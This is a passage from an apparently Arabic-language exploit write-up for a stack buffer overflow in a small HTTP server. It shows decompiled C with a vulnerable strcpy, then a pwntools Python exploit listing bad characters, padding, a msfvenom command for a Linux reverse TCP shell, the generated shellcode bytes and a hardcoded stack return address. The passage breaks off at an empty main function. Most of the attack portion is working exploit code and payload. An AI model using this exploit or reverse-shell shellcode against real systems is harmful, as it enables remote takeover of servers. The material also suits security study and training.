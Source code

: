 ```c++
        نلاحظ هنا بامكاننا وضع قيمه اكبر من 1024
       (Buffer Overflow) وبالتالي
    */
    strcpy(dirName,(server->request).path);         // vuln

    pcVar1 = rindex(dirName,0x2f);
    if (pcVar1 == (char *)0x0) { printf("Invalid request path \'%s\'\n",dirName);}
    ........ etc
```


 httpdReadRequest(httpd *server) : الخلاصه, راح يستقبل البرنامج الطلب كل مره يقرأ الطلب *سطر سطر* من خلال الدالة
 <br>
 httpdProcessRequest(httpd *server)  : وبعدها يعالج الطلب من خلال الدالة **المصابة** 


______
# exploit:
```python
from pwn import (
    remote,
    p32,
    info, success
    )

"""
    @@ badChars:
               0x00(null \0), 0x20(space), 0x0a(\n), 0x0d(\r), 0x2f(/) ,0x3f(?)
    @@ padding:
              (GET ) + "0x90"*1048 + address($EIP)
    @@ msfvenom:
             msfvenom -p linux/x86/shell/reverse_tcp LHOST=127.0.0.1 LPORT=9001 -f py -b "\x00\x20\x0a\x0d\x2f\x3f" -v sc
"""

# Shellcode
sc =  b""
sc += b"\xdb\xdc\xd9\x74\x24\xf4\xbb\xe8\x2b\xa2\x46\x5f"
sc += b"\x2b\xc9\xb1\x1f\x31\x5f\x1a\x03\x5f\x1a\x83\xef"
sc += b"\xfc\xe2\x1d\x41\xa8\x18\xec\x4d\x5b\x47\x5d\x31"
sc += b"\xf7\xe2\x63\x05\x91\x7b\x82\xa8\xde\xeb\x1f\x5b"
sc += b"\xa0\x13\x9f\x9a\x36\x16\x9f\xbf\xef\x9f\x7e\xd5"
sc += b"\x89\xc7\xd0\x7b\x01\x71\x31\x38\x60\x01\x34\x7f"
sc += b"\x03\x1b\x78\xf4\xc9\x73\x26\xf4\x31\x84\x7e\x9f"
sc += b"\x31\xee\x7b\xd6\xd1\xdf\x4a\x25\x95\xa5\x8c\xcf"
sc += b"\x2b\x4e\x2b\x82\x53\x28\x33\xf2\x5b\x4a\xba\x11"
sc += b"\x9a\xa1\xb0\x14\xfe\x3a\x78\xeb\xcc\xc3\xfd\xd4"
sc += b"\xb7\xd3\xa6\x5d\xa6\x4d\xea\x7a\x99\x6d\xc7\x03"
sc += b"\x5c\xb1\xaf\x01\xa0\xd3\xf7\x07\x5e\x14\x07\xb3"
sc += b"\x5f\x14\x07\xc3\x92\x94"

'''
Found 4 results, display max 4 items:
    libhttpd : 0x804f68a --> 0x74d9dcdb
        [heap]  : 0x8053942 --> 0x74d9dcdb
        [heap]  : 0x8055c5c --> 0x74d9dcdb
        [stack] : 0xffffcf4a --> 0x74d9dcdb
'''
shellAddr = p32(0xffffcf4a)

def main(host: str, port: int):
    
```